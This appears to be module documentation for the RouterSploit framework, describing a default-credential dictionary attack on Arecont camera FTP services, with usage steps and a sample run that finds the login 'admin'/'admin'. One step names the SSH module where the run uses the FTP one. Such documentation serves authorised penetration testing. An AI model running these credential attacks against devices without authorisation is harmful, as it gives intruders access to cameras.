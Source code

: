 ## Description

Module performs dictionary attack with default credentials against Arecont Camera FTP service.
If valid credentials are found, they are displayed to the user.

## Verification Steps

  1. Start `./rsf.py`
  2. Do: `use creds/cameras/arecont/ssh_default_creds`
  3. Do: `set target [TargetIP]`
  4. Do: `run`
  5. If valid credentials are found, they are displayed to the user.

## Scenarios

```
rsf > use creds/cameras/arecont/ftp_default_creds
rsf (Arecont Camera Default FTP Creds) > set target 192.168.1.1
[+] target => 192.168.1.1
rsf (Arecont Camera Default FTP Creds) > run
[*] Running module...
[*] Target exposes FTP service
[*] Starting attack against FTP service
[*] thread-0 thread is starting...
[-] Authentication Failed - Username: 'admin' Password: '12345'
[-] Authentication Failed - Username: 'admin' Password: '123456'
[-] Authentication Failed - Username: 'Admin' Password: '12345'
[-] Authentication Failed - Username: 'Admin' Password: '123456'
[+] Authenticated Succeed - Username: 'admin' Password: 'admin'
[*] thread-0 thread is terminated.
[*] Elapsed time: 0.06290411949157715 seconds
[+] Credentials found!

   Target          Port     Service     Username     Password
   ------          ----     -------     --------     --------
   192.168.1.1     21       ftp         admin        admin 

```
